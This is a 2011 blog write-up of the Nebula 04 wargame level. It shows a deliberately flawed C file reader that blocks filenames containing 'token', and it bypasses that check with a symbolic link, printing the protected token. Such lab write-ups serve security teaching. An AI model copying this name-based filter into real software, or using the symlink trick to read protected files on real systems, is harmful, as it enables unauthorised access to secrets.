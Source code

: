 ```yaml
---
title: "Exploit Exercises - Nebula 04"
date: "2011-12-05T05:45:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-04.html"
 - "/2011/12/04/exploit-exercises-nebula-04"
---
```


I really like [Nebula 04](http://exploit-exercises.com/nebula/level04), because it is really easy, but still a commonly missed thing in programming.

<!-- more -->

The object of this challenge is to find a vulnerability and exploit this C++ program.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
 char buf[1024];
 int fd, rc;

 if(argc == 1) {
  printf("%s [file to read]\n", argv[0]);
  exit(EXIT_FAILURE);
 }

 if(strstr(argv[1], "token") != NULL) {
  printf("You may not access '%s'\n", argv[1]);
  exit(EXIT_FAILURE);
 }

 fd = open(argv[1], O_RDONLY);
 if(fd == -1) {
  err(EXIT_FAILURE, "Unable to open %s", argv[1]);
 }

 rc = read(fd, buf, sizeof(buf));

 if(rc == -1) {
  err(EXIT_FAILURE, "Unable to read fd %d", fd);
 }

 write(1, buf, rc);
}
```

So this program first verifies that you did pass it an argument of some sort. If you pass that check, it then makes sure that your argument does not contain the term "token", since the developer knows the filename they want to protect. If both of those suceed, it tries to open the file, and print it to the screen, as long as it exists, and has no general read errors.

So to exploit this program, we need to pass the program an argument, and it needs to not contain the term "token" in it. So all we need to do is make a symbolic link.

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
level04@nebula:/home/flag04$ ./flag04 /tmp/level04
06508b5e-8909-4f38-b630-fdb148a848a2
```

The only odd part about this challenge is that there's apparently no privilege escalation done, so you can run "getflag", like every other problem up until now. [Someone else](http://exploit-exercises.com/nebula/level04#comment-375659125) noticed the same thing, but there has been no answer.  So as far as I'm concerned, this challenge is complete. We got the contents of the token file.
